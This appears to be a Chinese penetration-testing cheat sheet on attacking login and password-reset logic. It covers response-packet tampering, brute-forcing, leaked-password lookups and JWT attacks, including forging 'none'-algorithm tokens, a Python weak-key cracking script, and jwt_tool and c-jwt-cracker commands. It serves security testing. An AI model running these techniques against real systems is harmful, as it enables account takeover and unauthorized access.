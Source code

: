 ```yaml
---
title: 前端访问
date: 2023-11-28 13:04:08
permalink: /pages/a3a963/
categories:
  - 网络安全
  - 渗透测试服务访问
tags:
  - 
author: 
  name: 帅德华
  link: https://github.com/s-dehua
---
```

### 一些存在问题的逻辑
	任意用户注册
	可爆破用户名
	爆破用户名，密码
	用户名注入
	万能密码
	用户名Xss
	修改返回包信息，登入他人账户
	修改cookie中的参数，如user,adminid等
	HTML源码、JS等查看信息搜集一章
	后台登录参数修改为注册参数/reg、/register、/sign等
	登录失败返回包修改，例如“false”改为“true”，响应数值“0”改为“1”，登录后台。如果存在这些情况，一般前端Js、Html也可以直接找到后端对应的各类未授权访问接口
	Js、Html存在用户名密码注释信息
	根据系统查找系统对应的默认账号密码登录
	有些系统的密码为空，密码不填或者抓包后置空发送
	存在信息泄露手机号、邮箱、人名等可以到社工库查找对应的密码
	社工字典密码生成https://github.com/zgjx6/SocialEngineeringDictionaryGenerator
	页面无注册功能，通过Js或Html找到隐藏注册接口注册登录
	注册时验证码没有做好绑定，删除验证码参数，或者验证码参数为空可以注册
	验证码没有做好绑定，发送了验证码但是后端接收到任意验证码都可以注册、爆破、重置密码等
	
	密码重置
		1．重置一个账户，不发送验证码，设置验证码为空发送请求。
		2．发送验证码，查看相应包
	3．验证码生存期的爆破
		4．修改相应包为成功的相应包
		5．手工直接跳转到校验成功的界面
		6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
		7．重置别人密码时，替换为自己的手机号
		8．重置自己的成功时，同意浏览器重置别人的，不发验证码
		9．替换用户名，ID，cookie，token参数等验证身份的参数
		10．通过越权修改他人的找回信息如手机/邮箱来重置 
### JWT攻击手法
  	https://jwt.io/#debugger-io
  	http://jsonwebtoken.io
  	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFtYXppbmcgSGF4eDByIiwiZXhwIjoiMTQ2NjI3MDcyMiIsImFkbWluIjp0cnVlfQ.UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY
  	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9        # header
  	eyJzdWIiOiIxMjM0[...]kbWluIjp0cnVlfQ        # payload
  	UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY # signature
  #### 未校验签名
  	将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
  #### 禁用哈希
	Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
  #### 爆破弱密钥
    >pip3 install pyjwt
    >python3 crack.py
```python
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
```
```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```
  #### jwt_tool
	git clone https://github.com/ticarpi/jwt_tool
	python3 -m pip install termcolor cprint pycryptodomex requests
	python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
  #### c-jwt-cracker
	git clone https://github.com/brendan-rius/c-jwt-cracker
	./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE